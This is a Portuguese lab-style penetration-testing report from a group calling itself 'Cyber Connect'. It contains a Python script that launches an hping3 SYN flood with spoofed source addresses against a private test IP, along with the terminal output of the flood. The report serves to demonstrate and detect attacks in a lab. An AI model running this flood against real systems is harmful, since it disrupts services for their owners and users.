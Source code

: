 #### Compromisso com a Ética:

**A Cyber Connect adere estritamente a padrões éticos e legais na execução de nossos serviços. Nossa equipe segue um código de conduta rigoroso para garantir que todas as atividades realizadas sejam autorizadas e em conformidade com as leis e regulamentos.**

#### Clientes Alvo:

**A Cyber Connect atende a uma variedade de clientes, incluindo empresas de pequeno, médio e grande porte, instituições financeiras, órgãos governamentais e organizações sem fins lucrativos. Nossos serviços são personalizados para atender às necessidades específicas de cada cliente, independentemente de seu tamanho ou setor.**
#### Site

#### Servidor

#### Relatório da Empresa Cyber Connect

---

# Grupo - Ataque

![](https://imgs.search.brave.com/EtSESdaaWNl04l3KT628W9D4da8Tv3EC0bf5P8HIiQk/rs:fit:860:0:0/g:ce/aHR0cHM6Ly9yZXBv/c2l0b3J5LWltYWdl/cy5naXRodWJ1c2Vy/Y29udGVudC5jb20v/NDQyMDgzMzA4Lzhm/NGZhMzM4LTE5MmEt/NGM5Ni1hMjI1LTRh/Y2Y5NDMwZjQyMQ)

## Apresentação
## Software's para uso de penetração:

### Hping3

![[relatorio-ataque 1.mp4]]

```python
import os
import subprocess

target_ip = "192.168.3.200"
log_file = "/var/log/suricata/fast.log"

# Comando hping3
command = f"hping3 -c 10000 -d 120 -S -w 64 -p 21 --flood --rand-source {target_ip}"

# Abre o arquivo de log em modo de escrita e redireciona a saída do comando para o arquivo
with open(log_file, "w") as log:
    subprocess.call(command, shell=True, stdout=log, stderr=log)
```

#### Log no terminal

```bash
sudo tail -f /var/log/suricata/fast.log
hping in flood mode, no replies will be shown

--- 192.168.3.200 hping statistic ---
1100330 packets tramitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
HPING 192.168.3.200 (wlp2s0 192.168.3.200): S set, 40 headers + 120 data bytes
```
